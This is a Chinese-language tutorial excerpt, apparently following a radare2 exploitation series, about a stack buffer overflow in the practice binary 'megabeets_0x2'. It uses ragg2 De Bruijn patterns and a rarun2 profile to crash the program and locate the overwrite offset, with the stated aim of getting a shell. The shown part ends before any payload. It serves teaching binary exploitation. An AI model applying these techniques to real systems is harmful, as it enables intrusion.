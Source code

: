 

​		上图可以看到用户输入 [arg_8h] 被复制到缓冲区 ([local_88h])，然后，正如我们在上一篇文章中看到的那样，字符串 Megabeets 使用 rot13 加密，然后将结果与我们的输入进行比较。我们输入的大小永远不会被检查，并且输入会按原样复制到缓冲区。 这意味着如果我们输入的输入大于缓冲区的大小，我们将导致缓冲区溢出并破坏堆栈。

## 2.Crafting the exploit  制作漏洞利用

​		现在我们已经找到了易受攻击的函数，我们需要精心设计一个有效载荷来利用它。 我们的目标只是在系统上获得一个 shell。 首先，我们需要验证确实存在易受攻击的函数，然后，我们将找到我们的有效负载覆盖堆栈的偏移量。

使用radare2中的 工具		`ragg2`  	它允许我们生成一个称为  De Bruijn Sequence  的循环模式，**并检查我们的有效负载覆盖缓冲区的确切偏移量。**

```
$ ragg2 -
<truncated>
 -P [size]       prepend debruijn pattern
<truncated>
 -r              show raw bytes instead of hexpairs
<truncated>

$ ragg2 -P 100 -r
```

​	



二进制文件是通过标准输入获取用户输入的，而不是将我们的输入复制到 shell，所以要使用另一个工具`rarun2`

------

​		`rarun2` is used as a launcher for running programs with different environments, arguments, permissions, directories and overrides the default file descriptors (e.g. stdin).

​		It is useful when you have to run a program using long arguments, pass a lot of data to `stdin` or things like that, which is usually the case for exploiting a binary.

------

我们需要做以下三个步骤：

- 使用 ragg2 将 De Bruijn 模式写入文件
- 创建 rarun2 配置文件并将输出文件设置为标准输入
- 让radare2找到偏移量

```
jwj@jwj-VMware-Virtual-Platform:~/桌面$ ragg2 -P 200 -r >pattern.txt
jwj@jwj-VMware-Virtual-Platform:~/桌面$ cat pattern.txt 
A···DABEABFA

jwj@jwj-VMware-Virtual-Platform:~/桌面$ vim profile.rr2
jwj@jwj-VMware-Virtual-Platform:~/桌面$ cat profile.rr2 
#!/usr/bin/rarun2
stdin=./pattern.txt

jwj@jwj-VMware-Virtual-Platform:~/桌面$ r2 -r profile.rr2 -d megabeets_0x2 

INFO: glibc.fc_offset = 0x00148
 -- *(ut64*)buffer ought to be illegal
[0xf7fb3120]> dc

  .:: Megabeets ::.

Show me what you got?
[+] SIGNAL 11 errno=0 addr=0x41417641 code=1 si_pid=1094809153 ret=0
[0x41417641]> 

```
